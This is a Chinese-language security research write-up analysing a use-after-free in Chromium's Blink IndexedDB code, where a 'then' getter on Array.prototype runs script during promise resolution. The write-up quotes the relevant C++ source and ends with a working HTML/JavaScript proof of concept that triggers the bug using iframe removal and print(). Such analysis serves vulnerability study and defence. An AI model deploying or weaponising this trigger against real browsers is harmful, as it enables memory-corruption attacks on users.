 ## 成因分析

```
  void SuccessNamesAndVersionsList(
      Vector<mojom::blink::IDBNameAndVersionPtr> names_and_versions) override {
    if (!promise_resolver_)
      return;

    HeapVector<Member<IDBDatabaseInfo>> name_and_version_list;
    name_and_version_list.ReserveInitialCapacity(name_and_version_list.size());
    for (const mojom::blink::IDBNameAndVersionPtr& name_version :
         names_and_versions) {
      const IDBNameAndVersion idb_name_and_version(name_version->name,
                                                   name_version->version);
      IDBDatabaseInfo* idb_info = IDBDatabaseInfo::Create();
      idb_info->setName(name_version->name);
      idb_info->setVersion(name_version->version);
      name_and_version_list.push_back(idb_info);
    }

    probe::AsyncTask async_task(
        ExecutionContext::From(promise_resolver_->GetScriptState()),
        &async_task_id_, "success");
    promise_resolver_->Resolve(name_and_version_list);
    promise_resolver_.Clear();
  }
```
关于Resolve，这里就放kp师傅的笔记了，学到很多：https://github.com/eternalsakura/sakura_browser_learn/blob/main/type%20confusion/unfinished%20-%20TypeConfusionInTriggerPromiseReactions.md#2-%E5%B0%9D%E8%AF%95%E8%A7%A6%E5%8F%91%E4%B8%A4%E6%AC%A1fulfill

如果设置了其then属性，那么当控制流执行至此处时，就会调用用户所设计的getter。也就是说，在Resolve执行到一半时，可以执行用户所定义的外部JS代码。

```
mojo::PendingAssociatedRemote<mojom::blink::IDBCallbacks>
WebIDBFactoryImpl::GetCallbacksProxy(
    std::unique_ptr<WebIDBCallbacks> callbacks_impl) {
  mojo::PendingAssociatedRemote<mojom::blink::IDBCallbacks> pending_callbacks;
  mojo::MakeSelfOwnedAssociatedReceiver(
      std::move(callbacks_impl),
      pending_callbacks.InitWithNewEndpointAndPassReceiver(), task_runner_);
  return pending_callbacks;
}
```
可以看到WebIDBCallbacks创建时使用的是MakeSelfOwnedReceiver，这使得它是一个StrongBinding，这意味着它掌控它自己，只有当interface关闭了或者出现通信错误了才会调用析构函数。我们可以通过删除与执行上下文关联的iframe元素(用于进行indexedDB调用)来强制浏览器进程中的接收方断开连接。在那之后，为了远程对象能够处理断开事件，代码需要进入一个嵌套的事件循环，例如，通过' window.print() '，这样' SuccessNamesAndVersionsList '函数仍然在调用堆栈上。

之后Resolve执行完毕，在调用clear时，Impl已经被删除，导致uaf

poc：
```
<body>
<script>
if (window == top) {
  frame = document.body.appendChild(document.createElement('iframe'));
  frame.src = location.href.replace('localhost', '127.0.0.1');

  setTimeout(() => frame.remove(), 3000);
} else {
  frame = document.body.appendChild(document.createElement('iframe'));
  wnd = frame.contentWindow;

  wnd.indexedDB.databases();

  array_proto = wnd.Array.prototype;
  array_proto.__defineGetter__('then', function() {
    delete array_proto.then;

    frame.remove();

    print();
  });
}
</script>
</body>
```
